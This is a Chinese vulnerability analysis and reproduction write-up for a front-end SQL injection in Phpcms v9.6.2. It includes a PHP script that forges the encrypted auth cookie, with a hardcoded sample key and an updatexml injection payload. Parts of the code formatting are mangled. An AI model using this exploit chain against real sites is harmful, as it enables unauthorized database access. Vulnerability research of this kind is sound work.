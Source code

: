 # Phpcms v9.6.2 前台sql注入

> 原文：[https://www.zhihuifly.com/t/topic/3080](https://www.zhihuifly.com/t/topic/3080)

# Phpcms v9.6.2 前台sql注入

## 一、漏洞简介

## 二、漏洞影响

Phpcms v9.6.2

## 三、复现过程

### 漏洞分析

这个版本的的注入，是建立在任意文件读取漏洞存在的情况下才可利用。通过任意文件读取漏洞获得加解密的 **key** 值，我们可以用这个 **key** 加密我们的 **SQL注入payload** 。由于程序对解密后的数据并未过滤，最终导致漏洞发生。严格上来讲 **v9.6.2** 版本的注入只能在 **windows** 上利用，具体原因在上面的任意文件读取漏洞分析时也说了。下面我们来具体分析一下这个漏洞。

漏洞文件位于 **phpcms/modules/member/classes/foreground.class.php** ，代码如下图。我们可以明显看到下图第33行，程序直接将解密后的数据未经过滤直接带入查询。而待解密数据 **$phpcms_auth** 和解密秘钥 **$auth_key** 均可构造。

![image](img/4470e458f924f63a9edb1aba41288bed.png)

我们先来看一下待解密数据 **$phpcms_auth** 如何构造。从下图中，可以看出程序将从 **cookie** 中的 **xxx_auth** 字段经过 **sys_auth** 函数解密后，返回给了 **$phpcms_auth** ，而默认情况下使用 **pc_base::load_config('system', 'auth_key')** 作为加解密的 **key** 值。

![image](img/76d14a61460d100ee99e70e3fab4ce58.png)

而 **pc_base::load_config('system', 'auth_key')** 的值在网站搭建好后，会存储在 **caches/configs/system.php** 中，我们可以通过任意文件读取来获得这个值。

![image](img/774d51d1c5c6508c6a141226afeb0ed7.png)

现在 **$phpcms_auth** 已经搞定了，我们再来看看 **$auth_key = get_auth_key('login')** 如何构造，跟进 **get_auth_key** 的代码。我们可以看到 **$auth_key** 由 **$prefix、pc_base::load_config('system','auth_key')、ip()** 三个元素决定。前两个都是已知的，而第三个获取用户IP的函数存在IP伪造的问题，也可以是固定的。

![image](img/9a7401bee414227774c849f6e38b45b5.png)

所以 **get_auth_key('login')** 的值也是我们可以构造的，剩下的事情只要我们将 **payload** 传给加密函数加密两次即可。我们最后再来看一下 **PHPCMS v9.6.3** 中是如何修复这个漏洞的，补丁如下：

![image](img/4b7050d112e53a70d5c409aaf3219d77.png)

可以明显看到，补丁将解密后获得的 **$userid** 进行了强转。

### 漏洞复现

分析完毕后得到大致流程：

解密操作：get_cookie(‘auth’) 得到$phpcms_auth，get_auth_key(‘login’)得到$auth_key，然后sys_auth($phpcms_auth, ‘DECODE’, $auth_key)。

再通俗些的话：sys_auth方法对cookie中包含auth的参数名对应的密文值，先使用配置文件中的auth_key进行sys_auth得到的值作为第一次解密后的值，然后使用配置文件中的auth_key的值与客户端请求的IP拼接做MD5加密的值做为新的key，第一次解密后的值与新的key最后传入sys_auth进行解密得到最终的明文。

反之加密方法便是：

使用配置文件中的auth_key的值与客户端请求的IP拼接做MD5加密的值做为新的key，使用新的key与明文进行sys_auth得到的值作为第一次加密的密文，然后使用配置文件中的auth_key作为key与第一次加密的密文传入sys_auth得到的值作为最终的密文，也就是cookie字段名称中包含auth的参数对应的值。

**如下是将各个文件中的加密解密方法抓取出来稍作修改，在本地进行payload的加解密操作：**

```
<?php
function sys_auth($string, $operation = 'ENCODE', $key = '', $expiry = 0,$auth_key='7G6idVtMAxhgFVu5vGp1') {
    $ckey_length = 4;
    $key = md5($key != '' ? $key : $auth_key);
    $keya = md5(substr($key, 0, 16));
    $keyb = md5(substr($key, 16, 16));
    $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
    $cryptkey = $keya.md5($keya.$keyc);
    $key_length = strlen($cryptkey);

```
$string = $operation == 'DECODE' ? base64_decode(strtr(substr($string, $ckey_length), '-_', '+/')) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
$string_length = strlen($string);

$result = '';
$box = range(0, 255);

$rndkey = array();
for($i = 0; $i &lt;= 255; $i++) {
    $rndkey[$i] = ord($cryptkey[$i % $key_length]);
}

for($j = $i = 0; $i &lt; 256; $i++) {
    $j = ($j + $box[$i] + $rndkey[$i]) % 256;
    $tmp = $box[$i];
    $box[$i] = $box[$j];
    $box[$j] = $tmp;
}

for($a = $j = $i = 0; $i &lt; $string_length; $i++) {
    $a = ($a + 1) % 256;
    $j = ($j + $box[$a]) % 256;
    $tmp = $box[$a];
    $box[$a] = $box[$j];
    $box[$j] = $tmp;
    $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
}

if($operation == 'DECODE') {
    if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() &gt; 0) &amp;&amp; substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
        return substr($result, 26);
    } else {

        return '';
    }
} else {
    return $keyc.rtrim(strtr(base64_encode($result), '+/', '-_'), '=');
} 
```

}

function get_auth_key($prefix,$suffix="",$ip=‘127.0.0.1’,$auth_key=‘7G6idVtMAxhgFVu5vGp1’) {

if($prefix==‘login’){

$pc_auth_key = md5($auth_key.$ip);

}else if($prefix==‘email’){

$pc_auth_key = md5($auth_key);

}else{

$pc_auth_key = md5($auth_key.$suffix);

}

$authkey = md5($prefix.$pc_auth_key);

return $authkey;

}

//解密过程

//step 1

$encryption_str = ‘6fc7TB1Y1nIRK5HunMc5HAUw5WkBLLuQGBiOISDhJM4d8N8WHHOvqMaUSyWrZdVdH046oGv_e_Ir6Q157UV-yT5Aksuc_h_4RfwZqsEwDHfQckv4SReOiYFxm083X7Tydcw-nUy8l3nP-ouUGl59sN4’;

$operation1 = ‘DECODE’;

$decryption_step1 = (sys_auth($encryption_str, $operation1));

echo ‘decryption_step1 result:’.$decryption_step1."\n";

//step 2

$decryption_step2 = $decryption_step1;

$auth_key = get_auth_key(‘login’);

echo ‘decryption_step2 result:’.sys_auth($decryption_step2, ‘DECODE’, $auth_key)."\n";

echo ‘-----------------------’."\n" ;

//加密过程

//step 1

$clear_str = “1’or updatexml(1,concat(0x7e,(select user()),0x7e),1)  or '1    f867fef04bd76d95abe01300951ca336”;

$operation2 = ‘ENCODE’;

$encryption_step1 = sys_auth($clear_str, ‘ENCODE’, $auth_key);

echo ‘encryption_step1 result:’.$encryption_step1."\n"; `//step 2

$encryption_step2 = (sys_auth($encryption_step1, $operation2));

echo ‘encryption_step2 result:’.$encryption_step2;` 
```

使用上面的代码可以进行解密和加密，下图中decryption_step2 result的值便是对payload进行解密的最终结果，encryption_step2的值是对payload进行加密的最终结果。

![image](img/8955855c6d7ad23e696bf0364bafed58.png)

最终利用的现象，cookie中的YDVIB_auth参数名称，前缀是安装时候生成的可能不一样，可以在配置文件中找到对应的值，可以先注册普通用户然后看服务端下发的cookie中字段名称中xxx_auth的参数名称，便是存在漏洞的位置。

![image](img/4e64a2314fbbdf91cf8a670c462b09d8.png)

## 参考链接

> https://www.freebuf.com/column/158352.html

> https://xz.aliyun.com/t/5731